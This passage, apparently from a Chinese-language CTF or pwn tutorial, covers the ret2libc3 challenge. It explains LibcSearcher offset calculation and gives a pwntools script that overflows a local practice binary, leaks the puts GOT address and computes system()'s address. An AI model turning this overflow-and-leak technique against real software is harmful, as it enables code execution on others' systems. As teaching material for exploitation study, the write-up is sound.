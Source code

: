 首先，创建一个`LibcSearcher`对象，参数是已经泄露的函数及其地址

`libc = LibcSearcher('puts', puts_addr)`

然后计算偏移量，这里的含义是通过`puts`在内存中的位置减去`puts`在`glibc`的绝对位置，得到`ALSR`的偏移量

`libc_offset_base = puts_addr - libc.dump('puts')`

然后计算`system()`在`glibc`的绝对位置，加上相对偏移，得到`system()`在内存中的位置

`system_addr = libc_offset_base + libc.dump('system')`

下面是攻击脚本

```py
from pwn import *
from LibcSearcher import *

elf = ELF('./ret2libc3')
sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = flat([b'a' * 112, puts_plt, b'bbbb', puts_got])
sh.sendlineafter('Can you find it !?', payload)

puts_addr = u32(sh.recv()[0: 4])
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')

print(puts_addr - system_addr)
```

> <img src="./img/94.png">
